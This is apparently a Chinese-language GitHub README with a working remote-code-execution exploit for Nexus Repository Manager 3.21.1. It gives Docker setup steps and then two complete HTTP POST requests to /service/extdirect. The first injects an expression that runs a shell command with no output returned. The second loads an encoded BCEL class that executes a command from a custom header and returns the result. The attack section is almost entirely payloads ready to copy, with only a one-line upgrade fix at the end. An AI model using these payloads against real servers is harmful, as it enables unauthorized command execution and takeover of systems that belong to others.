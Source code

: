 # Nexus_Repository_Manager3_Vulnerabilities
Nexus Repository Manager3 - 远程执行代码漏洞回显payload

**环境搭建**

使用`https://hub.docker.com/r/sonatype/nexus3/tags`,pull下漏洞版本的docker

```java
查看docker history
sudo docker history sonatype/nexus3:3.21.1 
查看docker history 完整命令
sudo docker history sonatype/nexus3:3.21.1 --no-trunc
拉取镜像
sudo docker pull sonatype/nexus3:3.21.1
启动
sudo docker run -it -d --name nexus -p 8081:8081 -p 5050:5050 --name nexus sonatype/nexus3:3.21.1
sudo docker exec --user root -it 739eeacbfe93 bash
```

**无回显poc**

```
POST /service/extdirect HTTP/1.1
Host: **.**.**.191:8081
Content-Length: 350
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.01485219710140373
Content-Type: application/json
Accept: */*
Origin: http://34.92.64.191:8081
Referer: http://34.92.64.191:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: harbor-lang=zh-cn; grafana_session=5eab6ca0a546d0df32ab22b1d36dc996; NX-ANTI-CSRF-TOKEN=0.01485219710140373; NXSESSIONID=f6d08b8b-ec8a-45fd-8539-ea034a9f31b2; _ga=GA1.1.1917822484.1597226847; _gid=GA1.1.1059631663.1597226847
Connection: close

{"action":"coreui_User","method":"create","data":[{"userId":"3","version":"","firstName":"test","lastName":"test","email":"test@test.com","status":"active","roles":["$\\X{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/rce')}"],"password":"admin"}],"type":"rpc","tid":33}
```

![无回显](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/2ecc9372-574a-4864-b97f-3577e89a8ab8/1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20200821%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200821T104424Z&X-Amz-Expires=86400&X-Amz-Signature=53e3a021cf7614e680b1bf723bd1ca1da65959035579d11e354d8ed11a7bf68e&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%221.png%22)

![touch /tmp/rce](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/47f6ea38-633f-45a5-a6e8-a1821435db48/2.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20200821%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200821T104449Z&X-Amz-Expires=86400&X-Amz-Signature=0a5f206016d9051db4b419b47d359d696f979ba06a72abbc7da25ede3e3b3025&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%222.png%22)

**回显poc**

![bcel](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/a5a677bf-766b-435a-b2d2-cf07348add90/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20200821%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200821T104526Z&X-Amz-Expires=86400&X-Amz-Signature=a39d414d2976d9a18e635f4b04154ba5c0dee34463f240dc879d80abd028cf6b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

选择JDK内置的`com.sun.org.apache.bcel.internal.util.ClassLoader`来动态加载我们的类

```
${''.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$' + code).newInstance()
```

最终poc

```
POST /service/extdirect HTTP/1.1
Host: 192.168.233.130:8081
Content-Length: 4083
X-Requested-With: XMLHttpRequest
hu3sky_command: ls -al
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.9332502931671067
Content-Type: application/json
Accept: */*
Origin: http://192.168.233.130:8081
Referer: http://192.168.233.130:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; NX-ANTI-CSRF-TOKEN=0.9332502931671067; NXSESSIONID=395d2b71-9ae5-4020-81b9-9062d9f8a1cc
Connection: close

{"action":"coreui_User","method":"create","data":[{"userId":"3","version":"","firstName":"test","lastName":"test","email":"test@test.com","status":"active","roles":["$\\X{''.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$7b$I$A$A$A$A$A$A$A$8dV$d9s$UE$Y$ff5$bb$9b$99L$s$d7$q$9b$a4$T$82$82$B6$Jl$Q9d$40E$$E$c2$n$89$60$40$c5$c9$a4C6$d9$cc$ac3$b3$n$u$de7$o$e2$N$de7$8a$fa$60$95$b5$a1$a4$b4$f4$85$H$ff$E_$f4$c9$X_$7c$b1$ca$w$v$f1$eb$d9$5d$b2$J$ab$b8$3b$d5$d3$fd$dd$df$d7$bf$af$7b$7e$fc$fb$9b$ef$A$ac$c0$X$g$9a$b1MC$E$bd$K$b6$ab$d8$a1$n$8e$9d$gv$e1v9$ecV$d1$t$v$fd$w$eeP$b0G$c5$5e$VwJ$95$BI$dd$a7b$bf$86y$b8K$c5$ddr$7d$8f$8au$K$O$c8$e9$bd$K$y$N$83$b0U$M$v$Q$w$86U$iT1$a2$m$a5bT$c5$98$82$b4$86q8rp5dp$9f$86$f9$f0$U$f8$K$C$N$8b$e1iX$84$ac$i$s$U$i$d2$d0$z$c3$ec$c6$a4$8a$c3$f2$7d$bf$86V$3c$m$87$pR$e6A$a9M$c3j$3c$a4$e0a$N$x$f1$88$82G$Z$w$d6$a5$9cTp$pC$q$d1$b9$87$n$ba$d1$j$S$M$b5$bd$vG$ec$c8$8e$P$K$af$df$gL$T$a5$ea$a0$Iv$L$3f$e3$3a$3e$ad$aa$fb$C$cb$k$dbneB$$$VF$c1c$94$Q$e5F$b9P$K$U$3c$F$ca$a0m$9e$b4E$sH$91$W$83$ba$ceN$87$ce$u$Ab$f5$b9Y$cf$W$5bR$d2z$e3f$7b$c4$3d$b0W$Mnt$9d$40L$G$c9Qk$c2$d2q$3d$d6$e8x$iO0$d4IBO$dar$O$f6$f4$8fx$c2$gb$d0$83p$d2$eb$daV$da$d7$f1$q$9e$a2$mt$3c$8dgt$3c$8b$a3$M$jR$t$vu$92$fd$d3$a2$j$rsJ$40$c7s8$c6$Q$L$f2i6$ec$ef$9d$f6$b4spT$d8$c1Z$86$ae$ffc$a9c$b3$Tx$87$c9$d4$84$95$ce$K$j$cf$e3$b8$8e$Xp$82a$85$ed$8e$t$7dw88dyb$5c8$81$eb$f9I$car$d4O$O$8d$3aI_x$Ti$R$q$7d$7f$3c9$5d$C$j$_$e2$r$w$9aW$u$ba$8e$97q$9cvf$3a$bc$8di$cb$a7$c4_$c1$ab3$ea$93$8fZ$c1k$3a$5e$c7I$86J$da$b9$bd$5e$w$Q$k$a5$X$8a$a5$dc$9e$5d$5e$ca$b9DU$3cq_V$f8$BmJ$b8$cb$85$85T$bc$95$S$94$o$r$f6$fb$C$d2$3d$c8P3$92$bd$ce$l$3b$7c$80$92$h$b7$i$da$Q0$b4$V$edo$c8$O$P$LO$Mmu2$d9$804$845$ae$e0$94$8e7$f0$a6$8e$b7$f0$b6$82wt$bc$8b$f7$e4$k$bf$cf$d04$5bow$c1$_$_2J$M$e5yR$f3$D$j$l$ca$C7$cf$8enC6$95$Oe$3e$c2$c7$ML$d3$f1$JN$e88$8dOu$7c$sAuF$O$eb$b0$a6X$92P$f7$SXu$7c$$Y$9cR$ebq$c4d$d6$ef$99$85$cf$Z$$$3d1$9c$a6$8a$f7lI$894$95$a1$da$cez$kmr$R$a7$8d$89$ce$de$d9$e8$rL$d5Qu7$J$3bM$90$Y$wh$$M$f4$ceNdm$a9$ee$MGd$a2$da$X$c1$cd$b6$z$7c$3f$V$827$9a$d8$t$7b8B$96$Z$W$r$$Grg9p$x$c3$ae$b7$c3$g$t$fd$85W$f0$l$C$8e4Tr$Q$ce$a9z$89r$C$K$J$e4M$ceL$be$60$93N$j$c2$Yu$zC$bc$5c$94$fb$u5$b2$d0$97$cd$I$cf$ce$fb$91X$dc$$$82$R$97$ca$b4$beL$98$fb$_$8b$a2$5c$e1$f2$W$c8$7f$cb$bf$f1$u$b4$943$e1$8eQ$e8k$ca$84V$e6t$u$5b$d3$fai$da$ee$ac$T$a4d$v$c2$de$w$$$e23$eaR$m$93bTL$K$9ba$f1$Vvb$97$e7$cam$9f$e9$a9$40$a4$ce$qO$r$fdB$60$zz$9b$d9H$b2$Q$89$b2$M$J$a3$86iV$be$e3B$aa$g$kyt$3bP$a5$acLF8$ff$D$b73zR$e2$tp$8b$87H$ec$90$3c$83f$e1$a0h$82$dc$c5$86$d3Y$7f$84$dev$da$95$XOmF$k$5c$e1$ed$d3$efY$b6$a0Km5$dd$b6$f2$X$a1$f3$87$$$M$gMZ$b5$d3$9b$8e$q$c4$ba$a6$c0$be$82$3c$9c$d6$d2X$R$S$p$a8$94$cd$8f9R42F$d4y$qp$e1$y$e6l3$oF4$87Xo7$8d$V$dd$5d9$u$db$N$f5$y$ww$y54$a2$9bQ$k$95$i$k$5dB$ac$efQE$8f$Z3t$920$xx$85Q$ze$U$ae$8421S$e5$eaw$ab$w$p$ab$b4$b8$W$af$fc$80$bd$c5$d5$b8$b6$dc$ac$e2U$e7$d9Q$ae$f0$w$b2a$ea$5c$3f$cf$8ep$3d$87$9a$ij$8d$ba$i$eaO$b1t$b86$Mi$ae$9aW$87$e6$aa$rM1kxM$u$da$40$8fY$cbk$8d$c6$c8$b7$88$e7$d0$c4kh$d2$9cC$8bYWJ$ad$xR$eby$bd$b4$c9$8b$8c$fa$C$e3$7b$b4$9aF$de_$9b$f4$d7$c0$hB$7f$Ny$7f$8d$bcq$da_$9c$c7$8d$b9E$D$8dE$cbM$a5$d4$a6$o$b5$b9$94$da$5c$a4$b6$f0$W$e9$a9$3dJ$8c$81$881$afOr$5bh$d5L$ab$ab$fa$c2x$e6$99$dc$b8$dal$3d$87$f9$Dg$b1$80$f3$i$ae$c9$a1c$K$L$cd$b6sX4p$O$8b$Hx$db$U$SS$e84$e7$f2$b99t$N$98$ed$e71$ff$i$ba$H$a6$b0$84$b7$e6$b0$94$b7$d3$60$qi$c8$a1$c7l$3d$7d$f1$tnH$c62NE$bdV$w$z$e7$94$eeuOh$ec$f4$df$b6D$c8$9c$Q$ng$d0Ec5$a2$a8$81$8eZ$d4$a3$8e$AVO$802$b0$Q$N$f4e$d5H$c8$89c$3d$9a$b0$958$3b$d1$82$U8$i$fa$d2$3a$846$i$c1$5c$i$p$3c$9d$c4Ux$HW$d3$9d3$l_c$B$7e$c45$f8$F$j$b8$80$c5LE$82$d5$a0$935$a3$8bu$a0$9b$99X$c2va$v$hF$92$j$c32v$C$d7$b2$8f$b0$9c$e5$b0$82$fd$80$95$ecg$acb$bfb5$fb$N$d7$b3$df$e9f$fa$D$z$ec$_$dc$88$h$u$d2$_$R$bb$88$fd$a8R$40$dfU7$vX$af$e0$e6pRui$c2$I$f3$X$d9$3e$b4$ff$a7LH$5e_$c2$cf$_7$5cF$a1gc$f8lR$b0$Z$94P$82V$X$a9$qW$8a$e1O$c4$b0$85B$8eR$T$ae$84$8a$5b$$u$eb$d6B$b7R$l$ad8$Nu$h$f5$dd$aa$af$K$adZA$b2$f9$adi$o$7d$d9$c2$b2$7d$x$a0$d0_E$V$b4$b0$M$K$e6lQp$ab4$bd5$dc$cb$db$fe$B$ea$ea$b4$ba$c3$L$A$A').newInstance()}"],"password":"admin"}],"type":"rpc","tid":33}
```

![回显](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/bd9d7539-7208-4efa-b374-e1a7c2a71d8e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20200821%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200821T104541Z&X-Amz-Expires=86400&X-Amz-Signature=ddb209e8cd77ac1f180af7e393195f8ad7292fc44f48ee81cd20bc23a9eb54f7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**修复**

升级至最新版本或 Nexus Repository Manager 3.x OSS / Pro > 3.21.1
